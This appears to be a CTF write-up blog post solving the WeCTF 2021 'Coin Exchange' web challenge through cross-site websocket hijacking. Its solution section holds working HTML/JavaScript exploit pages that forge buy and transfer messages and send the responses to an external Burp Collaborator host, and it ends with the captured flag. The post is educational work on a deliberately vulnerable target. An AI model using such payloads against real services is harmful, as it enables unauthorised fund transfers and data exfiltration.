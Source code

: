 ```yaml
---
title: WeCTF 2021 - Coin Exchange
layout: post 
date: '2021-06-21 11:00:00'
description: solving a CSWSH vuln chall
image: 'https://i.imgur.com/qtNIfbD.jpg'
tags:
- web
- ctf
- infosec
- writeup
author: k4l1
---
```


Hi everyone! C:

After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.


## Description

62 solves / 379 pts

>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.

>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.

>Hint: Search CSRF if you don't know what that is.

>Host 1 (San Francisco): coin.sf.ctf.so:4001
>Host 2 (Los Angeles): coin.la.ctf.so:4001
>Host 3 (New York): coin.ny.ctf.so:4001
>Host 4 (Singapore): coin.sg.ctf.so:4001
>
>Source Code: [here]([https://](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip))

## Coin Exchange Website

#### Login

![](https://i.imgur.com/hjm5Z54.png)

#### Exchange

![](https://i.imgur.com/vEFD7Jn.png)

#### Ranking

![](https://i.imgur.com/8t3YfA0.png)

#### Transfer

![](https://i.imgur.com/YzK1SR7.png)


## Solution

This site use Websocket instead http requests and isn't protected to CSRF, so basically we need send to admin a malicious website with CSWSH(Cross-site websocket hijacking) to transfer eth to your account.

Intercepting with BurpSuite and seeing on `WebSockets history` we can read the traffic:

![](https://i.imgur.com/GwnLdLz.png)


Checking the source, we can see how the connection is created:


```js
function start_socket(){
    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
    socket.onopen = function(e) {
        routine = setInterval(routine_update, 1000)
    };
    socket.onmessage = function(event) {
        .
        .
        .
    }
}
```

On second line we can see that it use a custom protocol called `ethexchange-api`, this will be important to connect.

For send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.

Let's try to code a xpl to send to admin...

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending this to admin...

![](https://i.imgur.com/h8o4Fkp.png)

Badly, the admin don't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).

```js
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
      var buy = {"type":"buy","content":{"amount":"7000"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
![](https://i.imgur.com/XEa4u0p.png)

Intercepting again after got more than $5000:

![](https://i.imgur.com/aYLN8L9.png)

We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`


## References

* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)